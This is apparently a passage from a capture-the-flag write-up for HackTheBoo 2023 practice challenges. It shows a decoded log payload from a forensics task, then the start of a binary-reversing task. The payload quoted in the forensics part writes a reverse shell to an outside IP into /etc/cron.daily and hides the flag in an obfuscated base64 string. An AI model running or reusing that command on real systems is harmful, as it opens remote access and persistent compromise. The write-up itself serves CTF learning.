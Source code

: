![](attachment/ad60c89cf4cae43d96b861183c877cc1.png)

Payload :

```bash
upg_datatable&field=field:exec:echo "sh -i >& /dev/tcp/82.179.92.206/7331 0>&1" > /etc/cron.daily/testconnect && Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64 -d|rev:NULL:NULL
```

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Vulnerable Season]
└─$ echo $(Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64 -d|rev)
HTB{L0g_@n4ly5t_4_bEg1nN3r}
```

# Reversing

## CandyBowl

### Flag in strings

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/CandyBowl/rev_candybowl]
└─$ file candybowl
candybowl: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=30c0582cde593ca34da52bc9919191f64b7bf0fa, for GNU/Linux 3.2.0, not stripped

┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/CandyBowl/rev_candybowl]
└─$ diec candybowl
ELF64
    Library: GLIBC(2.2.5)[DYN AMD64-64]
    Compiler: gcc((Debian 10.2.1-6) 10.2.1 20210110)[DYN AMD64-64]
```

